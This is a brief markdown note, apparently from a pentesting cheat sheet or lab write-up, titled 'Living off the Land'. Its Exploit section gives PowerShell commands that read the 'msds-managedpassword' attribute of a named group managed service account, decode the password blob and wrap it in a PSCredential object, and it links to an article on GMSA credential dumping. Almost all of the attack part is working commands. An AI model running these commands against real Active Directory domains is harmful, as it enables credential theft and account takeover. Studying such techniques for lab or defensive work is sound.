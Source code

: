 # Living off the Land

## 01 - Enumerate

```

```

## 02 - Exploit

```powershell
PS C:\> $gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties 'msds-managedpassword'
```

Print out the group account.

```powershell
PS C:\> $gmsa
```

Decode the password.

```powershell
PS C:\> $managedpassword = $gmsa.'msds-managedpassword'
$convert = ConvertFrom-ADManagedPasswordBlob $managedpassword
$user = 'BIR-ADFS-GMSA$'
$password = ConvertTo-SecureString $convert -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential $user,$password
```

---
## References

### Hacking Articles

- [Hacking Articles: Credential Dumping - GMSA](https://www.hackingarticles.in/readgmsapassword-attack/)